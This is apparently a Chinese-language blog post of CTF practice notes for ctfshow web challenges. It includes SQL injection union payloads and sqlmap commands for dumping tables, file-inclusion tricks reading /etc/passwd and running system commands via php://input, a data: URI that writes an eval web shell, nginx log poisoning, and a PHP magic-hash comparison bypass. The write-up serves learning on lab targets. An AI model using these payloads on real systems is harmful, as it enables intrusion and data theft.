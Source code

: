 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - ctf
---
```


**作者：鸿鹄（阳阳）**

## crypto




## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by #	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

#### web3

 `<?php include($_GET['url']);?>`

文件包含，发现测试`url=/etc/passwd`有回显[![f3ZFRx.png](https://z3.ax1x.com/2021/08/09/f3ZFRx.png)](https://imgtu.com/i/f3ZFRx)

- 方法一

我们利用php伪协议 php://input post提交命令，hackbar不太行，使用bp

<?php system("ls") ?>

<?php system("cat ctf_go_go_go") ?>

ctfshow{ff020599-61ce-47e7-877d-37a36638edd5}

- 方法二

?url=data:*//text/plain,<?php print_r(glob("\*")); ?>*

- 方法三

url=data:text/plain,<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['hack']);?>")?>

然后进行菜刀链接

- 方法四

因为是nginx服务器也可以使用日志包含

#### web4

使用nginx的日志包含

?url=/var/log/nginx/access.log可以打开

然后把一句话写到ua头中

然后进行菜刀链接即可

#### web5

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

> **代码审核：**get传参绕过
>
> ctype_alpha ( string $text ) : bool
>
> 做纯字符检测如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
>
> 
>
> is_numeric() 函数
>
> 用于检测变量是否为数字或数字字符串。如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE。
>
> 同时php弱类型比较，当比较的双方类型不相同时，会先转化成相同的再进行比较，如果转化之后都是以0e为开头的字符串，则==成立。

取v1=QNKCDZO v2=240610708

## web入门

#### web1







